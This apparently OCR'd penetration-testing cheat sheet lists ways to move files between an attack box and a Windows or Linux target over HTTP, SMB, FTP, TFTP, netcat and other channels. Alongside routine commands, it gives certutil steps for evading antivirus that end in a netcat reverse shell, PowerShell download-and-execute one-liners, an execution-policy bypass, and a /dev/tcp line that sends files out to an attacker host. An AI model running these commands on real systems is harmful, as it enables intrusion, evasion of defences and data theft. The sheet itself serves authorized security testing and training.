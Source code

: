     **Considerations: file size (executable packing); architecture (32 vs 64 bit); static vs dynamic libraries; EOL conversion (switch in Notepad++)
      Windows->Unix fix newlines:  sed 's/\r$//' linenum.sh > linenum2.sh

    Standard Protocols:
        RDP/Copy File:
            rdesktop -g 1600x800 -r disk:tmp=/usr/share/windows-binaries 192.168.30.30 -u username -p /dynamic-resolution
            xfreerdp /u:admin /p:password /cert:ignore /v:10.10.138.3 /workarea /drive:/localdir,share /dynamic-resolution +clipboard
            Windows connect:  mstsc /v:1.2.3.4
            File Copy/Paste:  server allows by default, client doesn't
                To Enable: Under Options > Local Resources, you need to click the More button and put a check mark next to Drives.
        SCP: Push or Pull
            Linux/Solaris: scp
            Windows: WinSCP/pscp/scp
            Upload:  scp file.txt kali@192.168.1.6:/tmp
            Download:  scp kali@192.168.1.6:/tmp/file.txt .
        HTTP:
            Linux:
                Server:  python -m SimpleHTTPServer [port]  \\  python -m http.server [port]  \\  php -S 0.0.0.0:8080
                    With Upload Option:  https://gist.github.com/UniIsland/3346170
                Download:  wget http://192...:8000/file [-O /tmp/file]  \\  curl http://192...:8000/file -o /tmp/file
                    Bash Script Manual Curl:  https://www.hackingdream.net/2019/12/file-transfer-cheat-sheet-for-pentesters-oscp.html
                    Or in browser: http://...
                    Python:  python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’;  \\  python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’
            Windows:
                Server:  
                    python -m SimpleHTTPServer [port]  \\  python -m http.server [port]
                    Or if http already running: move file to web dir under C:\ ; *make sure it has an extension
                VBScript method (XP,2003): https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/
                Certutil:  certutil.exe -urlcache -split -f "http://192.168.1.2/exploit.exe" [outfile]
                    Avoid antivirus w/ Base64 encode:
                        certutil.exe -encode [inputFileName.exe] [encodedOutputFileName.txt]
                        certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt
                        certutil.exe -decode nc.txt nc.exe
                        test it: nc.exe [Attack box IP] 5555 -e cmd.exe
                Bitsadmin:  bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe
                Curl:  curl http://192.168.1.2/putty.exe -o putty.exe
                Or in browser: http://...
                Python download method above^^
                Powershell:
                    Interactive:
                        Download:  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')
                            Or:  powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
                                 powershell -c "Invoke-WebRequest -Uri http://192.168.119.186/nc64.exe nc64.exe"
                                 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.186/winPEASany.exe','C:\Users\alice\Desktop\winPEASany.exe')"
                        Download & Execute w/o Saving:  powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')
                            Or:  cmd /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.186/Sherlock.ps1') | powershell -noprofile -
                    Non-Interactive (script method):
                        echo $storageDir = $pwd > wget.ps1; echo $webclient = New-Object System.Net.WebClient >>wget.ps1; echo $url = "http://192.168.1.2/exploit.exe" >>wget.ps1; echo $file = "exploit1-ouput.exe" >>wget.ps1; echo $webclient.DownloadFile($url,$file) >>wget.ps1
                        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
                    Newer PS Versions:  wget http://192.168.1.2/putty.exe -OutFile putty.exe  \\  powershell.exe wget http://192.168.1.2/putty.exe -OutFile putty.exe
        SMB:
            Server:  python /usr/share/pyshared/impacket/smbserver.py <sharename> <sharepath> [-smb2support]
                Windows:  net share Tools=C:\tools /grant:everyone,FULL  ;  Confirm: net share
            Client:
                Windows:
                    View Remote Shares:  net view \\computername /all [/USER:Administrator  \\  /USER:domain\user]
                    Download:  copy \\192.168.1.2\sharename\exploit.exe .
                    Upload:  copy nc2.exe \\10.10.14.17\SHARE\nc2.exe
                    Connect:  net use [K:] \\IP\ShareName [/USER:Administrator  \\  /USER:domain\user]
                        Disconnect:  net use /d \\[host]\[share name]  \\  net use /d k:
                    *Execute w/o Downloading:  \\10.10.14.18\SHARE\Chimichurri.exe 10.10.14.11 4445
                Linux:
                    View Shares:  smbclient -L 192.168.1.21 [-U raj%pass]
                    Connect:  smbclient //192.168.1.21/share [-U raj%pass]
                    Download one file:  smbget smb://192.168.11.10/Tools/abc.exe -u administrator -p password -o /tmp/abc.exe
                        Download recursively:  smbclient //192.168.11.10/Tools -U administrator%password -c 'prompt OFF;recurse ON;mget *'
        FTP:
            Server (Linux):  pip install pyftpdlib; python3 -m pyftpdlib -p 21 -u jeenali -P 123
            Client:
                Connect:  ftp <IP> [PORT]  \\  Browser:  ftp://...  \\  curl or wget [-r] ftp://...
                Download:  get ...
                Upload:  put ...
                Other commands:  help; binary; passive; ls; cd
                Non-Interactive Script Method (Client):
                    echo open 192.168.1.101 21> ftp.txt; echo USER uname>> ftp.txt; echo mysecretpassword>> ftp.txt; echo bin>> ftp.txt; echo GET wget.exe>> ftp.txt; echo bye>> ftp.txt
                    ftp -v -n -s:ftp.txt
        TFTP (Windows XP, 2003):
            Server (Linux):
          apt update && sudo apt install atftp; mkdir /tftp; chown nobody: /tftp; atftpd --daemon --port 69 /tftp; /etc/init.d/atftpd restart
          Or:  perl tftpd.pl <fileToShare>   (script from PW tools/cut-paste)
          Or:  sudo msfconsole; use auxiliary/server/tftp; set srvhost 192.168.1.2; set tftproot /tmp; exploit
            Client:
                Download:  tftp -i 192.168.1.2 GET file2.txt
                Upload:  tftp -i 192.168.1.2 PUT file1.txt
        Other Windows Methods:
            Meterpreter:  download file.txt /root/Desktop/  ;  upload...
            WinRM:  upload ...
            Powershell Remoting:  Copy-Item -ToSession $appsrv1 -Pathfile_to_copy.exe -Destination C:\Users\appadmin\Downloads
            Rcp

    Non-Standard Protocols:
        ***Confirm file hashes:
            Unix: md5sum
            Windows: certutil -hashfile <file> [MD5|SHA1], or fciv for XP
        Netcat:
            nc –lvp 8001 > out.txt  ;  nc HOST_IP 8001 < in.txt  \\  nc –lvp 8001 < in.txt  ;  nc HOST_IP 8001 > out.txt
            nc.exe –l -p 4444 < in.txt  ;  nc.exe -w 1 127.0.0.1 4444 > out.txt
        Socat:
            socat TCP4-LISTEN:443,fork file:file.txt
            socat TCP4:192.168.1.2:443 file:file.txt,create
        *No Tool on Linux Target (Target>Ops transfer):
            nc -nvlp 9001 > backup.7z  ;  cat file.7z > /dev/tcp/ATTACKER_IP/9001
        Terminal Window (copy/paste):
            Base64 encoding:
                Linux: base64 <file> > out64  \\  openssl enc -base64 <file> > out64
                Windows:  certutil -encode [infile] [outfile]  \\  PS methods (check pw dir)
            findstr /v CERTIFICATE outfile > removed_headers
            Copy:  type outfile|clip
                ****Both:  python -m base64 [infile] > [outfile]
            Paste:
                Linux:  cat > out.64
                Windows:  more > out.64
          Teraterm Slower Paste:  Setup > Additional Settings > Copy and Paste, "Paste delay per line">150ms
            Decoding:
                Linux: base64 -d <file> > out  \\  openssl enc -base64 -d <file> > out
            From Windows: ***remove header/footer first, and use -i
                Windows:  certutil -decode [infile] [outfile]  \\  powershell options
                Both:  python -m base64 -d [infile] > [outfile]

    Windows Tips:
        Finding world-writeable directories:  Get-ChildItem -Recurse | Get-Acl | out-string -stream | select-string -pattern "everyone"
            or in cmd: mkdir test (in C:\); or look carefully in Users for hidden writeable dirs.
        Limited Display:
            SCROLL DISPLAY FIRST 1110 (max) OF LINES OF FILE:    powershell -command "& {Get-Content output.txt -TotalCount 1110}"
            Last # of lines:   powershell -command "& {Get-Content output.txt | Select-Object -last 1110}"
            Total number of lines in file:  type out | find /c /v "" 
